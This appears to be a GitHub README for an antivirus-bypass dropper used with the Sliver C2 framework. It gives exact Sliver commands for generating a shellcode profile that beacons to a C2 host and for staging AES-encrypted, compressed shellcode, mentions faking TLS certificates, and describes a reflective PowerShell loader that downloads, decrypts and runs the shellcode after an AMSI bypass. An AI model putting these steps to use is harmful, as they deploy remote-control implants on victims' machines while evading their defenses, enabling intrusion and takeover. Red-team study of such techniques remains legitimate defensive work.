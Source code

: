 # Bypass AV with Sliver c2
Dropper + reflective load script for bypassing AV with sliver c2

Taken from [this article](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8).

Compression is a huge IOC so I may change this to remove

## In Sliver

Create new profile

`profiles new -b  https://192.168.1.11:443 --skip-symbols --format shellcode --arch amd64 my_profile`

Host SSL cert (you can fake with msf impersonate_ssl)

`https -L 192.168.1.11 -l 443 -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key`

Stage profile shellcode

`stage-listener --url https://192.168.1.11:8080 --profile my_profile -c /home/ycf/blog/sliver/crt.crt -k /home/ycf/blog/sliver/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

## Dropper

Shellcode dropper solution will download, decompress, decrypt shellcode and execute. Best way is to reflectively load via PowerShell as it is .NET assembly, and the dropper is not evasive at all (you need AMSI bypass).

1. Read in solution DLL assembly. The solution MUST BE `.NET FRAMEWORK` (~4.0).

`get-content -encoding byte -path .\sliverloader.dll | clip`

2. Convert your keys and IV to raw bytes.

3. Update loader script

4. Use `amsiscanbuffer()` bypass for entire process unhook including CLR
